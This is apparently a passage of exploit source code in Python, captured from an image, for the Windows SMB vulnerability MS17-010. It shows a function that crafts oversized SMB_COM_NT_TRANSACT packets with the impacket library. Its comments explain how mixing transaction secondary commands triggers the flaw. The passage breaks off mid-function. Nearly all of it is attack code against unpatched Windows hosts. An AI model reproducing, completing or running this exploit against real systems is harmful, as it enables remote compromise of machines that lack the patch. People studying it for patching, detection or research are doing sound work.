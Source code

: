 ```
def send_big_trans2(conn, tid, setup, data, param, firstDataFragmentSize, sendLastChunk=True):
	# Here is another bug in MS17-010.
	# To call transaction subcommand, normally a client need to use correct SMB commands as documented in
	#   https://msdn.microsoft.com/en-us/library/ee441514.aspx
	# If a transaction message is larger than SMB message (MaxBufferSize in session parameter), a client 
	#   can use *_SECONDARY command to send transaction message. When sending a transaction completely with
	#   *_SECONDARY command, a server uses the last command that complete the transaction.
	# For example:
	# - if last command is SMB_COM_NT_TRANSACT_SECONDARY, a server executes subcommand as NT_TRANSACT_*.
	# - if last command is SMB_COM_TRANSACTION2_SECONDARY, a server executes subcommand as TRANS2_*.
	#
	# Without MS17-010 patch, a client can mix a transaction command if TID, PID, UID, MID are the same.
	# For example:
	# - a client start transaction with SMB_COM_NT_TRANSACT command
	# - a client send more transaction data with SMB_COM_NT_TRANSACT_SECONDARY and SMB_COM_TRANSACTION2_SECONDARY
	# - a client sned last transactino data with SMB_COM_TRANSACTION2_SECONDARY
	# - a server executes transaction subcommand as TRANS2_* (first 2 bytes of Setup field)
	
	# From https://msdn.microsoft.com/en-us/library/ee442192.aspx, a maximum data size for sending a transaction 
	#   with SMB_COM_TRANSACTION2 is 65535 because TotalDataCount field is USHORT
	# While a maximum data size for sending a transaction with SMB_COM_NT_TRANSACT is >65536 because TotalDataCount
	#   field is ULONG (see https://msdn.microsoft.com/en-us/library/ee441534.aspx).
	# Note: a server limit SetupCount+TotalParameterCount+TotalDataCount to 0x10400 (in SrvAllocationTransaction)
	
	pkt = smb.NewSMBPacket()
	pkt['Tid'] = tid

	command = pack('<H', setup)
	
	# Use SMB_COM_NT_TRANSACT because we need to send data >65535 bytes to trigger the bug.
	transCommand = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
	transCommand['Parameters'] = smb.SMBNTTransaction_Parameters()
	transCommand['Parameters']['MaxSetupCount'] = 1
	transCommand['Parameters']['MaxParameterCount'] = len(param)
	transCommand['Parameters']['MaxDataCount'] = 0
	transCommand['Data'] = smb.SMBTransaction2_Data()

	transCommand['Parameters']['Setup'] = command
	transCommand['Parameters']['TotalParameterCount'] = len(param)
	transCommand['Parameters']['TotalDataCount'] = len(data)

	fixedOffset = 32+3+38 + len(command)
	if len(param) > 0:
		padLen = (4 - fixedOffset % 4 ) % 4
		padBytes = '\xFF' * padLen
		transCommand['Data']['Pad1'] = padBytes
	else:
		transCommand['Data']['Pad1'] = ''
		padLen = 0

	transCommand['Parameters']['ParameterCount'] = len(param)
	transCommand['Parameters']['ParameterOffset'] = fixedOffset + padLen

```
